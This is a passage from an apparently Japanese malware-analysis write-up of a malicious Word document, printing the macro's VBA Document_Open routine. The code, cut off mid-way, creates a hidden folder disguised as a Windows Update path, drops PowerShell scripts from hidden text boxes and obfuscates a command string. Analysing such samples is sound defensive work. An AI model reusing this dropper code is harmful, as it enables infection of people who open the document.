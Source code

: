 ![macroファイル02](https://raw.githubusercontent.com/proshiba/analysis/main/ps-malware01/images/macro02.png)

さて、これらがどこで実行されるか、ですが。まずはDocument_Openでファイルの書き込みが定義されていますね。とはいえコード内容はここではわかりません。

```vb
Private Sub Document_Open()
    Application.ScreenUpdating = False
    Call Macro1
    Dim Script, inp As String
    inp = Google.meet.Text
    pla = Google.chat.Text
    uName = Environ("username")
    Pathh = "C:\Users\" & uName & "\AppData\Local\Microsoft\Windows\Update\"
    If Dir(Pathh) = "" Then
        MkDir Pathh
        Call Macro2
    End If
    Set FSO1 = CreateObject("Scripting.FileSystemObject")
    SetAttr Pathh, vbHidden
    Set FS1 = FSO1.CreateTextFile(Pathh & "Script.ps1", True)
    ActiveDocument.Shapes.Range(Array("Text Box 19")).Select
    Selection.WholeStory
    FS1.WriteLine Selection.Text
    FS1.Close
    Set FSO3 = CreateObject("Scripting.FileSystemObject")
    Set FS3 = FSO3.CreateTextFile(Pathh & "temp.ps1", True)
    ActiveDocument.Shapes.Range(Array("Text Box 18")).Select
    Selection.WholeStory
    FS3.WriteLine Selection.Text
    FS3.Close
    inp = Replace(inp, "PATH", Pathh)
    inp = EncodeBase65(inp)
    inp = Replace(inp, "a", "@")
```